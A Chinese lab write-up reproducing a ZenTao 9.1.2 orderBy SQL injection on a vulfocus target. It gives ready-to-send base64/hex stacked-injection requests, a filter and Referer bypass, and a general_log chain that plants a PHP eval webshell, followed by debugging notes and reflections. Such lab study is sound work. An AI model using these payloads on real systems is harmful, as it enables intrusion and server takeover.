

# 禅道zentaopms-9.1.2-sql SQL注入 by  [corp0ra1](https://github.com/corp0ra1)


# 复现

## 漏洞详情

*禅道 项目管理软件 是国产的开源项目管理软件,专注研发项目管理,内置需求管理、任务管理、bug管理、缺陷管理、用例管理、计划发布等功能,实现了软件的完整生命周期管理。 漏洞出现在zentao\lib\base\dao\dao.class.php中的orderBy函数没有对limit部分做任何限制就直接拼接。也就是说，使用了orderBy这个函数的地方都有可能产生过滤。*

## 漏洞环境

该漏洞环境已整合到vulfocus靶场中，可一键直接启动。 



## 复现过程

1. 获取目标版本信息：http://118.193.36.37:10363/zentaopms/www/index.php?mode=getconfig
    1. {"version":"9.1.2","requestType":"GET","requestFix":"-………………
2. 通过错误路由引发报错，进而获取服务器绝对路径：http://118.193.36.37:10363/zentaopms/www/index.php?m=user&f=login1
    1. /www/zentaopms/framework/base/router.class.php
3. 漏洞点：orderBy处理过程中存在SQL注入问题，可堆叠注入。拿其中一个payload演示编码步骤如下：
    1. 选择所用payload语句：`select sleep(5)`
    2. 将SQL语句hex编码：`0x73656c65637420736c656570283529`
    3. 将hex编码后的参数插入json中：`{"orderBy":"order limit 1;SET @SQL=0x73656c65637420736c656570283529;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}`
    4. 将json数据进行base64编码：`eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDIwNzM2YzY1NjU3MDI4MzUyOTtQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==`
    5. 将base64编码后的数据插入请求：http://118.193.36.37:10363/zentaopms/www/index.php%EF%BC%9Fm=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDIwNzM2YzY1NjU3MDI4MzUyOTtQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==
    6. 注：每一个请求中都需要手动添加refer字段：`Referer:http://118.193.36.37:10363/zentaopms/`
4. 获取webshell过程的payload如下：（采用的是日志写shell的方式）
    1. 开启日志：`set global general_log='on';` 
    2. 更改日志路径：`set global general_log_file='/www/zentaopms/module/misc/ext/model/foo.php';` 
    3. 注入shell语句：`select '<?php @eval($_POST[1])?>';` 
    4. 关闭日志:`set global general_log='off';`
5. 访问webshell获取flag：链接：http://118.193.36.37:10363/zentaopms/module/misc/ext/model/foo.php 密码：1

```php
//sleep（5）
GET /zentaopms/www/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDIwNzM2YzY1NjU3MDI4MzUyOTtQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ== HTTP/1.1
Host: 118.193.36.37:10363
Referer:http://118.193.36.37:10363/zentaopms/

//开启日志：set global general_log='on'; 
GET /zentaopms/www/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxO1NFVCBAU1FMPTB4NzM2NTc0MjA2NzZjNmY2MjYxNmMyMDY3NjU2ZTY1NzI2MTZjNWY2YzZmNjczZDI3NmY2ZTI3M2I7UFJFUEFSRSBwb3JkIEZST00gQFNRTDtFWEVDVVRFIHBvcmQ7LS0gLSIsIm51bSI6IjEsMSIsInR5cGUiOiJvcGVuZWRieW1lIn0= HTTP/1.1
Host: 118.193.36.37:10363
Referer:http://118.193.36.37:10363/zentaopms/

//更改日志路径：set global general_log_file='/www/zentaopms/module/misc/ext/model/foo.php'; 
GET /zentaopms/www/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxO1NFVCBAU1FMPTB4NzM2NTc0MjA2NzZjNmY2MjYxNmMyMDY3NjU2ZTY1NzI2MTZjNWY2YzZmNjc1ZjY2Njk2YzY1M2QyNzJmNzc3Nzc3MmY3YTY1NmU3NDYxNmY3MDZkNzMyZjZkNmY2NDc1NmM2NTJmNmQ2OTczNjMyZjY1Nzg3NDJmNmQ2ZjY0NjU2YzJmNjY2ZjZmMmU3MDY4NzAyNzNiO1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9 HTTP/1.1
Host: 118.193.36.37:10363
Referer:http://118.193.36.37:10363/zentaopms/

//注入shell语句：select '<?php @eval($_POST[1])?>';
GET /zentaopms/www/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxO1NFVCBAU1FMPTB4NzM2NTZjNjU2Mzc0MjAyNzNjM2Y3MDY4NzAyMDQwNjU3NjYxNmMyODI0NWY1MDRmNTM1NDViMzE1ZDI5M2YzZTI3M2I7UFJFUEFSRSBwb3JkIEZST00gQFNRTDtFWEVDVVRFIHBvcmQ7LS0gLSIsIm51bSI6IjEsMSIsInR5cGUiOiJvcGVuZWRieW1lIn0= HTTP/1.1
Host: 118.193.36.37:10363
Referer:http://118.193.36.37:10363/zentaopms/

//关闭日志:set global general_log='off';
GET /zentaopms/www/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxO1NFVCBAU1FMPTB4NzM2NTc0MjA2NzZjNmY2MjYxNmMyMDY3NjU2ZTY1NzI2MTZjNWY2YzZmNjczZDI3NmY2NjY2MjczYjtQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ== HTTP/1.1
Host: 118.193.36.37:10363
Referer:http://118.193.36.37:10363/zentaopms/
```


## 简单描述

1. 为什么不用select…into file方式getshell？网上教程绝大部分用这种方式，但是此靶场不行，详见后文select …into file处
2. 为什么用哪个foo.php路径？因为只有特定的文件路径可以。详见后文general_log处的坑一坑二
3. 为什么用预处理方式？系统有过滤一些敏感符号，预处理中可利用hex编码绕过，详见补充部分
4. 为什么请求中一定要加refer？系统有校验这个请求头，详见补充部分

# 详细讲讲TL;DR

由于在线 Vulfocus的靶机存在时间限制，故选择自行搭建靶机。同时由于自行搭建，故可以进入靶机然后分析。

## 搭建环境

1. 拉取官方镜像：`sudo docker pull vulfocus/zentaopms_9.1.2_sql`
2. 启动：`sudo docker run -dt --name zentao -p 8080:80 vulfocus/zentaopms_9.1.2_sql`
3. 访问：`IP+8080+/zentaopms/www/index.php`
4. 后台管理员账户：`admin/zxc@123`

### 后文会用到的命令

1. 进行docker内：`sudo docker exec -it xxxx /bin/bash`
2. 进入mysql：`mysql -u root -p`  。账户密码： `root/pass`,账户密码存于`/www/zentaopms/config/my.php`
3. mysql命令：
    1. 查看安全：`show variables like '%secure%';`
    2. 查看日志：`show variables like 'general_log%';`
    3. 设置日志路径：`set global general_log_file='/var/lib/mysql/ac2ecb1e75dc.log';`
    4. 设置日志开启：`set global general_log='on';`

> trick: 由于payload要频繁base64编码，burpsuite中的trick：`Ctrl+B`→Base64编码，`Ctrl+Shift+B`→Base64解码

## SELECT…INTO OUTFILE方式失败

最早找到的文章[《禅道免登陆SQL注入漏洞复现》](https://www.freebuf.com/vuls/246678.html)就是通过SELECT…INTO OUTFILE方式写入，但是发现怎么写入都不成功

```php
payload-->select '<?php @eval($_POST[1])?>' into outfile '/www/zentaopms/www/1.php'
hex-->0x73656c65637420273c3f70687020406576616c28245f504f53545b315d293f3e2720696e746f206f757466696c6520272f7777772f7a656e74616f706d732f7777772f312e70687027
params-->{"orderBy":"order limit 1;SET @SQL=0x73656c65637420273c3f70687020406576616c28245f504f53545b315d293f3e2720696e746f206f757466696c6520272f7777772f7a656e74616f706d732f7777772f312e70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}
base64-->eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDIwMjczYzNmNzA2ODcwMjA0MDY1NzY2MTZjMjgyNDVmNTA0ZjUzNTQ1YjMxNWQyOTNmM2UyNzIwNjk2ZTc0NmYyMDZmNzU3NDY2Njk2YzY1MjAyNzJmNzc3Nzc3MmY3YTY1NmU3NDYxNmY3MDZkNzMyZjc3Nzc3NzJmMzEyZTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9
```

### 失败的原因

`show variables like '%secure%';`其中`secure_file_priv`会限制数据的导入导出操作。

（1）当`secure_file_priv`为空，就可以任意读取磁盘的目录。

（2）当`secure_file_priv`为path，就可以读取对应目录以及其子目录的文件。

（3）当`secure_file_priv`为null，不能加载文件。

故反馈到靶机上，查看下图，文件只能写入到`/var/lib/mysql-files`目录下。如将shell的写入路径改为`/var/lib/mysql-files/1.php`即可以写入shell，但是这种写入也只是鸡肋，无法利用

且`secure-file-priv`属于Server System Variables，无法通过SQL语句更改，只能通过更改系统配置文件的方式。故通过SELECT ... INTO OUTFILE语句写入shell的方式在此靶机中行不通


> trick：vulfocus的靶机提供了3306端口的对外映射，故可以直接链接


## sleep()验证漏洞存在

> 既然按照上述文章一把梭的方式失败，就只能最简单的`sleep()`开始验证漏洞存在，给自己点正面反馈


## 报错尝试

> 此处也是给自己的一个正反馈：延时盲注可行，写shell文件不行，于是尝试报错注入，看能否再给自己一个正反馈

参考：L3m0n师傅[《从SQL注入到Getshell：记一次禅道系统的渗透》](https://zhuanlan.zhihu.com/p/34275981) 

构造:`{"orderBy":"order limit 1'","num":"1,1","type":"openedbyme"}` 其中1后面有个单引号，进而构成报错注入。很庆幸看到了报错信息，但遗憾无法根据报错进行注入。

关于为什么此处不用堆叠注入，L3m0n文中也提及：因为“limit后的注入点，因为使用多语句的话，报错效果不明显，所以就直接在limit后面进行注入”，而“limit的注入和mysql版本还有一些关系，目前网上的payload仅限于低版本才可报错注入出数据，很不幸运的是，目标使用的是高版本mysql”


## general_log方式成功

general_log写入四部曲：

1. 开启日志：`set global general_log='on';` 
2. 更改日志路径：`set global general_log_file='/www/zentaopms/module/misc/ext/model/foo.php';` 
3. 注入shell语句：`select '<?php @eval($_POST[1])?>';` 
4. 关闭日志:`set global general_log='off';`

注：我第四步选择关闭日志，因为实在不想所有的SQL语句都写入文件，进而导致shell文件过于冗杂

### 坑一：mysql写入文件的权限问题

我尝试随便写入文件到Web目录下，如`set global general_log_file='/www/zentaopms/www/test.php'` ，但遗憾失败了，卡在了权限。

原因：执行SQL语句写入文件的是mysql用户，但是运行Web服务的是www-data用户


### 坑一解决方案

思路：找到一个mysql可以写入的,且www-data用户可以访问的php文件

方法：`find /www/zentaopms/ -perm 777 -type f`   

发现web目录下有这些文件可以写，初步排查一波，觉得`hello.test.php`可用


### 坑二：php标签闭合

`hello.test.php` 确实可以写入，web也确实可以访问，但是访问出错

我直接将写入的文件复制到本地环境访问，发现原因在于开启日志会写入一些信息，而这些信息不符合php语法故报错，即使是闭合了php标签。


### 坑二解决方案

继续再从上述权限为777类型的文件中找其他的闭合了标签的php文件，然后发现foo文件吻合。

故我的攻击路径采用的是`/www/zentaopms/module/misc/ext/model/foo.php` ，当然也有其他文件可以，但未每个尝试

> 采用：`inurl:ext/model/foo.php` 语法进行搜索，疑似就是禅道默认都会有这个foo.php文件？未测试


# 补充

## 为什么要加refer字段

参考L3m0n师傅的文章，在9.1.2也就是靶场环境的/www/zentaopms/module/block/control.php文件中，在“*__construct中，$this->selfCall是在验证referer的值，如果为真的话则后面的if将不会进入die语句里面*”


## 为什么用预处理

堆叠普通SQL语句，如`{"orderBy":"order limit 1;select sleep(5)-- -","num":"1,1","type":"openedbyme"}`还是可以的，但是使用general_log方式，SQL语句中会用到下划线`_`，而`_`被过滤会造成SQL语句执行出现问题。

还是参考L3m0n师傅的文章，在9.1.2也就是靶场环境的/www/zentaopms/lib/base/dao/dao.class.php的orderby函数中可以看到，将“*下划线给过滤掉了，那这种在多语句下，可以利用mysql的预查询来绕过*”


## 为什么general_log值可更改，secure_file_priv不行

还是查看官方文档，`general_log`属于[Dynamic System Variables](https://dev.mysql.com/doc/refman/5.7/en/dynamic-system-variables.html)，可以通过set来动态更改。而`secure_file_priv` 是[非动态的系统变量](https://dev.mysql.com/doc/refman/5.7/en/security-options.html)，故不可以更改


## 黑盒情况下如何判断secure_file_priv变量的值

### 根据系统信息

> 很多人搜到上面的内容就点到为止了，但远不于此

查看了下[官方文档关于secure-file-priv的介绍](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) ：

`secure-file-priv`的默认值因平台而异，取决于对应的CMake文件，默认如下图：

从图中可以看出windows取决于mysql版本，版本在5.7.16下可利用，而DEB, RPM, SLES, SVR4基本涵盖了绝大部分的linux，默认路径只在/var/lib/mysql-files，故linux下大概率不行

反馈到靶机环境上：网上采用load_file方式注入shell复现禅道的都在windows下故可行，而vulfucus中则在ubuntu下搭建环境，故无法利用


> 注：文档中也提及mysql服务在启动的时候会根据`System variables` 设置相关配置 ，而由于`secure-file-priv` 是写在配置文件中的，故即使更改系统配置文件，也需要重启mysql服务才能使配置生效

### 盲注

`select @@secure_file_priv;` 或 `select @@global.secure_file_priv;`


## 查看mysql日志debug

查看mysql日志文件并且时刻刷新进而实现监控的效果： `tail -f /var/lib/mysql/ac2ecb1e75dc.log`  。[Linux tail 命令](https://www.runoob.com/linux/linux-comm-tail.html)

我通过debug找到坑点举例：

1. 尝试更改日志路径，但是总更改不了：`set global general_log_file='tmp/general.lg'` 
2. 通过实时监控日志文件发现命令确实执行，但是就是执行不成功
3. 将系统执行的命令复制到mysql中执行，发现文件路径少了一个“`/`”（mysql命令相对路径在/var/lib/mysql下，而该目录下tmp子目录不存在。mysql遇到文件不存在会创建，但遇到路径上的目录不存在则会出错）
4. 更改后，即可成功`set global general_log_file='/tmp/general.lg'`

注：关于为什么在路径中少了个`/` ，论网上教程的七宗罪


# 总结

1. 感谢[ovi3师傅](https://ovi3.github.io/index.html)的指导
2. 如何发现secure_file_priv在不同平台默认值？
    1. 缘起：如果在黑盒情况下如何判断能否用load_file？
    2. 想法：我想试着通过盲注注出secure_file_priv变量的值，进而判断能否用load_file，找着找着然后就去看官方文档，进而发现了这个trick
    3. 反思：我们习惯从网上获取到二手的关于secure_file_priv变量设置为null、empty值对应的介绍，然后点到为止
    4. 教训：①多自我提问②多尝试获取一手信息，也许意外之喜
3. 沉下心
    1. 发现 `general_log_file='tmp/general.lg'` 报错之后，就只是简单的以为路径写错了罢了。经过ovi3师傅提醒，发现了错因的根本在于相对路径与绝对路径的区别
    2. 复现报错注入的时候测试payload是“`PROCEDURE ANALYSE(polygon(id),1)#`”，但实则我的环境中并没有这个id字段注入也不会得到想要的id内容，而我选择盲注复制L3m0n的payload以及其结论而快速跳过，而忽略了其用的是limit后的报错注入而不是之前的堆叠
4. 缺点
    1. 代码审计篇幅没有展开，也没有深入研究。
    2. 对其他可写日志的php文件没有深入研究，并没有真正探索出共性，如foo.php文件在每个禅道版本是否都存在没有核实。
5. 自省：如果我没有靶机环境，我如何getshell?如何找到foo.php?如果实战遇到，我是否会放弃？